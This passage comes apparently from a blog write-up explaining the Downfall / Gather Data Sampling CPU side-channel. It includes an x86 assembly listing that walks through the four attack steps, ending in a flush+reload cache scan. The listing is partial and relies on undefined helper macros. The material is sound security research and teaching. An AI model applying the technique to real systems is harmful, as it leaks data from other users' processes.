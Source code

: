 Note that, while *gather* can leak some data from the shared buffer, there is a long list of vectorial instructions that uses the buffer. So any process that uses instructions from the following list can have some data stolen

<img src="/assets/img/Downfall/instruciton list.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

### GDS in 4 steps

We'll now explain in detail how to use Gather Data Sampling and walk through the 4 steps.

```
// Step (i): Increase the transient window
lea addresses_normal, %rdi
clflush (%rdi)
mov (%rdi), %rax
// Step (ii): Gather uncacheable memory
lea addresses_uncacheable, %r13             //set address
mov $0b1111111111111111, %rdi               //set mask
kmovq %rdi, %k1
vpxord %zmm1, %zmm1, %zmm1                  //set indexes
vmovups (%rsi), %zmm1
vpgatherdd 0(%r13, %zmm1, 1), %zmm5{ %k1}    //gather
// Step (iii): Encode (transient) data to cache
movq %xmm5, %rax
encode_eax
// Step (iv): Scan the cache
scan_flush_reload
```